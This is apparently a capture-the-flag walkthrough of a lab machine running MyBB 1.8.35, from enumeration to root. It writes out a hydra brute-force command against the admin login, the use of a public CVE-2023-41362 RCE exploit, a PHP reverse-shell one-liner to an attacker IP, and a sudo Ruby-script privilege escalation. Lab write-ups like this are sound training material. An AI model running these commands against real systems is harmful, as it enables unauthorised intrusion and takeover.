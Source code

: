```yaml
---
sticker: emoji//1f476
---
```


# ENUMERATION


## OPEN PORTS


![](gitbook/cybersecurity/images/Pasted%252520image%25252020241029135137.png)
Seems like we only have a website, let's fuzz it


## FUZZING

### GOBUSTER FUZZ

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241029135218.png)

### SOURCE CODE AND WEBPAGE

Nothing useful, let's see the page:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241029143334.png)

Let's go to the forum:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241029143346.png)

We need to add `panel.mybb.dl` to `/etc/hosts` in order to be able to go into the website:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241029143517.png)

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241029143536.png)
Nice, let's keep enumerating the machine until we find something we can exploit:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241029143732.png)
We can see we only have the admin user registered, 


![](gitbook/cybersecurity/images/Pasted%252520image%25252020241029143829.png)
Let's fuzz the `http://panel.mybb.dl` website to check if we can find anything:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241029144434.png)

We found interesting things, directory I like the most is the `/backups` directory, let's fuzz it to check if there's anything in there:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241029144701.png)

Found `/data` inside of the directory, let's take a look:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241029144821.png)

In general, SQL queries can be found, and some login attempts, but the most interesting part is the following:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241029144856.png)

User `alice` attempted to log in using a password, that seems like a hash, let's try to crack it and log into Alice account

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241029145105.png)

We got `alice:tinkerbell` let's attempt to log in:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241029145142.png)
We cannot get in using those credentials, seems like they were fake, so, why don't we try some bruteforce using the `admin` username, let's capture the request with `burp` and use `hydra` to brute force our login page:


```request
POST /admin/index.php HTTP/1.1

Host: panel.mybb.dl

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:131.0) Gecko/20100101 Firefox/131.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Content-Type: application/x-www-form-urlencoded

Content-Length: 38

Origin: null

Connection: keep-alive

Cookie: mybb[lastvisit]=1730230425; mybb[lastactive]=1730230863; sid=df2321f0ff06ec973eb0f4cbfc38c6de

Upgrade-Insecure-Requests: 1

Priority: u=0, i



username=admin&password=admin&do=login
```

So, we got a post request, let's brute force:

```ad-hint

##### HYDRA COMMAND

`hydra -l admin -P /usr/share/wordlists/rockyou.txt panel.mybb.dl http-post-form "/admin/index.php:username=^USER^&password=^PASS^&do=login:F=Login Failed"`

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241029150240.png)



```

So, we got plenty amount of passwords, after trying every single one of them, correct credentials were: `admin`:`babygirl`, let's log in and proceed with exploitation:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241029150737.png)



# EXPLOITATION


First, we can see we are running `myBB 1.8.35` let's search for any exploit in this version:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241029150932.png)
We found this [exploit](https://github.com/SorceryIE/CVE-2023-41362_MyBB_ACP_RCE), let's download it and use it:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241029151057.png)
So, we need to put this:

```ad-hint

# PYTHON COMMAND:

python3 exploit.py http://panel.mybb.dl admin babygirl

##### OUTPUT

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241029151225.png)

We got RCE!
```

With the RCE from the exploit, we can get a [[CYBERSECURITY/REVERSE SHELLS/MOST COMMON REVERSE SHELLS.md|reverse shell]]:

```ad-note

# USED SHELL

php:  `php -r '$sock=fsockopen("192.168.200.136",4444);shell_exec("bash <&3 >&3 2>&3");'`

# CONNECTION RECEIVED

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241029151456.png)

```

Let's [[CYBERSECURITY/Commands/Shell Tricks/STABLE SHELL.md|stabilize our shell]]:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241029151553.png)

With our new stable shell, we can begin with [[CYBERSECURITY/LINUX/LINUX PRIVILEGE ESCALATION/BASIC PRIVESC IN LINUX.md|PRIVESC]]

# PRIVILEGE ESCALATION



At home directory, we can find our previous user `alice`, let's switch users:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241029151851.png)

Nice, we were able to switch to alice, let's use `sudo -l` to get root access:


## SUDO -L


![](gitbook/cybersecurity/images/Pasted%252520image%25252020241029151944.png)
Pretty weird, let's take a look at that:

It is a ruby script, since we can execute any ruby script as root without the need of a password, we can do the following:

```ad-hint

`echo 'exec "/bin/bash"' > /home/alice/scripts/root.rb`
`chmod +x root.rb`

`sudo /home/alice/scripts/root.rb`

# OUTPUT

![](gitbook/cybersecurity/images/Pasted%252520image%25252020241029152250.png)


```

And just like that, the CTF is done!